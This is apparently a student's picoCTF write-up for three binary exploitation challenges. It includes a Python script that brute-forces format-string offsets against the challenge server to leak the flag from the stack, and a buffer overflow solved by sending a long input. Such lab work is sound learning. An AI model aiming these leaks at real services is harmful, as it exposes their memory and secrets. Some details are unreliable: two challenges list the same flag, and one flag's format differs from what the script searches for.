 # Binary Exploitation

## flag leak
### Flag
* flag: CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
### Thought process
* using a technique i found in google using format strings for accessing sections of stack with "%1$s" is the closest i came to finding the flag
* i didnt have time cause its already 11 and i only have 1 hr to finish the entire web exploitaton section
* so i thought why not write a python script and brute force through all section of the stack 1 to a 100
* doing so let me find the flag at the 24th position
### Code Used
```py
# this is chatgpt'd
#Prompt : c saturn.picoctf.net 59949 this is the connection to run the file, what if i run a forloop in python that iterates through %i$s
import socket

# Server details
host = 'saturn.picoctf.net'
port = 59949

def send_payload(offset):
    # Construct the format string payload to send
    payload = f"%{offset}$s\n"
    
    # Set up the socket connection
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))  # Connect to the server
        s.recv(1024)  # Receive the initial welcome message
        s.sendall(payload.encode())  # Send the crafted payload
        try:
            response = s.recv(1024).decode()
        except: 
            response = '' 
        return response

def main():
    # Try different offsets to see if we can find the flag
    for i in range(1, 100):
        print(f"Sending payload with offset %{i}$s")
        response = send_payload(i)
        print("Response:", response)
        if "picoCTF" in response:  # Look for the flag format (usually starts with picoCTF)
            print(f"Flag found: {response}")
            break

if __name__ == "__main__":
    main()
```

## format string 0
### Flag 
* picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}

### Thought process

connected to the system through WSL
Saw multiple choice options
did random inputs, somehow worked
not really certain as to what happened, initial thought was maybe a buffer overflow
will look into it in detail when i have time
### Steps to Solve

give necessary inputs
copy the flag and paste
## buffer overflow 0
### Flag 
* picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}

### Thought process

* i think a similar kind of problem like format string 0
* i saw the challenge name and decided to google what was a buffer overflow
* learned the definition
* when i connected to the challenge, it asked for an input
* according to the definition of buffer overflow i realised if i give a ridiculously large input i can overflow it
* so that what i did and got the flag
### Concepts Learned

* basic definition of buffer overflow
### Steps to Solve

connect to challenge
input hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
get flag, ggs
